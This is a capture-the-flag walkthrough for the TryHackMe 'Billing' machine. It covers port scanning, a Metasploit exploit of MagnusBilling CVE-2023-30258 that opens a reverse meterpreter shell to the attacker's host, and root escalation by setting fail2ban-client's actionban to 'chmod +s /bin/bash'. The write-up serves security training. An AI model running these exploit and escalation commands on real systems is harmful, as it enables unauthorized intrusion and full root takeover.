






[*← Back to index*](../../README.md)

# Billing

This Write-up/Walkthrough provides my process for the **Billing** *(THM)* CTF. Here you will find the solution for the machine. I encourage you to use this as a reference, not a direct solution.

---

## Scan

I started doing the respective fast scan to the IP to obtain only open ports:

```
nmap -p- --open --min-rate 5000 -sS -Pn -n -vvv 10.112.189.167

  22/tcp   open  ssh     syn-ack ttl 62
  80/tcp   open  http    syn-ack ttl 62
  5038/tcp open  unknown syn-ack ttl 62
```

Once the ports are found, let's made an exhaustive scan:

```
nmap -p22,80,5038 -sV -sC 10.112.189.167

  22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
    | ssh-hostkey: 
    |   256 d2:06:33:81:87:1b:76:12:6b:23:32:c5:f7:c4:e2:81 (ECDSA)
    |_  256 7d:0b:cc:30:12:49:3a:78:dd:de:4c:56:00:35:fb:ce (ED25519)
  80/tcp   open  http     Apache httpd 2.4.62 ((Debian))
    |_http-server-header: Apache/2.4.62 (Debian)
    | http-title:             MagnusBilling        
    |_Requested resource was http://billing.thm/mbilling/
    | http-robots.txt: 1 disallowed entry 
    |_/mbilling/
  5038/tcp open  asterisk Asterisk Call Manager 2.10.6
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I found 3 ports opened:

  * **22**: SSH
  * **80**: HTTP → Apache httpd 2.4.62
  * **5038**: Asterisk Service

---

## Pasive recognition

Usually, I start doing a website passive recognition:

```
whatweb 10.112.189.167
  ERROR Opening: https://10.112.189.167 - Connection refused - connect(2) for "10.112.189.167" port 443
  http://10.112.189.167 [302 Found] Apache[2.4.62], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[10.112.189.167], RedirectLocation[./mbilling]
  http://10.112.189.167/mbilling [301 Moved Permanently] Apache[2.4.62], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[10.112.189.167], RedirectLocatI fion[http://10.112.189.167/mbilling/], Title[301 Moved Permanently]
```

We know Apache 2.4.62 is running on port 80, let's take a look of the website:



It is a login form, I have not the credentials. Let's check the routes:

```
gobuster dir -u http://billing.thm/mbilling -w /usr/share/wordlists/dirb/common.txt -t 100 -q

  .hta                 (Status: 403) [Size: 276]
  akeeba.backend.log   (Status: 403) [Size: 276]
  archive              (Status: 301) [Size: 321] [--> http://billing.thm/mbilling/archive/]
  assets               (Status: 301) [Size: 320] [--> http://billing.thm/mbilling/assets/]
  .htaccess            (Status: 403) [Size: 276]
  development.log      (Status: 403) [Size: 276]
  .htpasswd            (Status: 403) [Size: 276]
  fpdf                 (Status: 301) [Size: 318] [--> http://billing.thm/mbilling/fpdf/]
  index.html           (Status: 200) [Size: 30760]
  index.php            (Status: 200) [Size: 663]
  lib                  (Status: 301) [Size: 317] [--> http://billing.thm/mbilling/lib/]
  LICENSE              (Status: 200) [Size: 7652]
  production.log       (Status: 403) [Size: 276]
  protected            (Status: 403) [Size: 276]
  resources            (Status: 301) [Size: 323] [--> http://billing.thm/mbilling/resources/]
  spamlog.log          (Status: 403) [Size: 276]
  tmp                  (Status: 301) [Size: 317] [--> http://billing.thm/mbilling/tmp/]
```

For some reason, every time I ran this scan with gobuster the machine would crash, and I had to start a new one. It was really annoying and I couldn't figure out why it was happening (the instructions say "*Note: Bruteforcing is out of scope for this room*").

Including the "robots.txt":



Perfect, at this point we have found:

  * [robots.txt](#scan) in the nmap scan
  * Many [routes](#pasive-recognition) in the URL
  * An unkown service (Asterisk Call Manager on port 5038)

---

## Active recognition

Looking for some information about "magnusbilling" I found the following:

  * https://eldstal.se/advisories/230327-magnusbilling.html
  * https://github.com/MarkLee131/awesome-web-pocs/blob/main/CVE-2023-30258.md

The **CVE-2023-30258** is the key

  1. I tried using the vulnerable parameter (with exec) `http://billing.thm/mbilling/lib/icepay/icepay.php?democ=` but it didn't work: 
  
  

  **NOTE:** The reason why it didn't work is because the `icepay.php` file was empty.

  So I take a look in **msfconsole**:

  

  2. I took that exploit (same name that CVE found):

  ```
  msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.112.159.56
  RHOSTS => 10.112.159.56
  msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST 192.168.136.26
  LHOST => 192.168.136.26
  msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > run
  [*] Started reverse TCP handler on 192.168.136.26:4444 
  [*] Running automatic check ("set AutoCheck false" to disable)
  [*] Checking if 10.112.159.56:80 can be exploited.
  [*] Performing command injection test issuing a sleep command of 6 seconds.
  [*] Elapsed time: 6.6 seconds.
  [+] The target is vulnerable. Successfully tested command injection.
  [*] Executing PHP for php/meterpreter/reverse_tcp
  [*] Sending stage (45739 bytes) to 10.112.159.56
  [+] Deleted QCMltPVJQvlNmF.php
  [*] Meterpreter session 1 opened (192.168.136.26:4444 -> 10.112.159.56:58086) at 2026-04-19 15:08:54 +0200

  meterpreter > whoami
  [-] Unknown command: whoami. Run the help command for more details.
  meterpreter > ls
  Listing: /var/www/html/mbilling/lib/icepay
  ==========================================

  Mode              Size   Type  Last modified              Name
  ----              ----   ----  -------------              ----
  100644/rw-r--r--  0      fil   2026-04-19 14:14:28 +0200  .txt
  100700/rwx------  768    fil   2024-02-27 20:44:28 +0100  icepay-cc.php
  100700/rwx------  733    fil   2024-02-27 20:44:28 +0100  icepay-ddebit.php
  100700/rwx------  736    fil   2024-02-27 20:44:28 +0100  icepay-directebank.php
  100700/rwx------  730    fil   2024-02-27 20:44:28 +0100  icepay-giropay.php
  100700/rwx------  671    fil   2024-02-27 20:44:28 +0100  icepay-ideal.php
  100700/rwx------  720    fil   2024-02-27 20:44:28 +0100  icepay-mistercash.php
  100700/rwx------  710    fil   2024-02-27 20:44:28 +0100  icepay-paypal.php
  100700/rwx------  699    fil   2024-02-27 20:44:28 +0100  icepay-paysafecard.php
  100700/rwx------  727    fil   2024-02-27 20:44:28 +0100  icepay-phone.php
  100700/rwx------  723    fil   2024-02-27 20:44:28 +0100  icepay-sms.php
  100700/rwx------  699    fil   2024-02-27 20:44:28 +0100  icepay-wire.php
  100700/rwx------  25097  fil   2024-03-27 20:55:23 +0100  icepay.php
  100644/rw-r--r--  0      fil   2024-09-13 11:17:00 +0200  null
  ```

  First Flag:

  ```
  ls -la /home/magnus
  total 76
  drwxr-xr-x 15 magnus magnus 4096 Sep  9  2024 .
  drwxr-xr-x  5 root   root   4096 Apr 19 02:56 ..
  lrwxrwxrwx  1 root   root      9 Mar 27  2024 .bash_history -> /dev/null
  -rw-------  1 magnus magnus  220 Mar 27  2024 .bash_logout
  -rw-------  1 magnus magnus 3526 Mar 27  2024 .bashrc
  drwx------ 10 magnus magnus 4096 Sep  9  2024 .cache
  drwx------ 11 magnus magnus 4096 Mar 27  2024 .config
  drwx------  3 magnus magnus 4096 Sep  9  2024 .gnupg
  drwx------  3 magnus magnus 4096 Mar 27  2024 .local
  -rwx------  1 magnus magnus  807 Mar 27  2024 .profile
  drwx------  2 magnus magnus 4096 Mar 27  2024 .ssh
  drwx------  2 magnus magnus 4096 Mar 27  2024 Desktop
  drwx------  2 magnus magnus 4096 Mar 27  2024 Documents
  drwx------  2 magnus magnus 4096 Mar 27  2024 Downloads
  drwx------  2 magnus magnus 4096 Mar 27  2024 Music
  drwx------  2 magnus magnus 4096 Mar 27  2024 Pictures
  drwx------  2 magnus magnus 4096 Mar 27  2024 Public
  drwx------  2 magnus magnus 4096 Mar 27  2024 Templates
  drwx------  2 magnus magnus 4096 Mar 27  2024 Videos
  -rw-r--r--  1 magnus magnus   38 Mar 27  2024 user.txt
  cat /home/magnus/user.txt
  THM{FLAG}
  ```

---

## Privilege Escalation

Now that we have the first flag, let's escalate privileges:

```
sudo -l

Matching Defaults entries for asterisk on ip-10-114-188-168:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-114-188-168:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

After looking for a while about this service "fail2ban" I realized that it was the reason why the machine would crash every single time I ran the gobuster scan.

*"Fail2Ban is an intrusion prevention software framework. Written in the Python programming language, it is designed to prevent brute-force attacks."*

In addition to the above, I found the following:

https://juggernaut-sec.com/fail2ban-lpe/#Exploiting_Fail2Ban_and_Getting_a_Root_Shell

I assume we must find a way to edit the banned file for Asterisk:

```
cd /etc/fail2ban
```





I ran:

```
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```

We need to ban an IP (I banned google), this way, we ensure that the service runs and applies our new settings:

```
sudo /usr/bin/fail2ban-client set asterisk-iptables banip 8.8.8.8
```

Finally:

```
/bin/bash # We remain as "asterisk"
```

But if we use:

```
/bin/bash -p
```
Voilà ! We are root, from here we can run:

```
cat /root/root.txt
```

[*← Back to index*](../../README.md)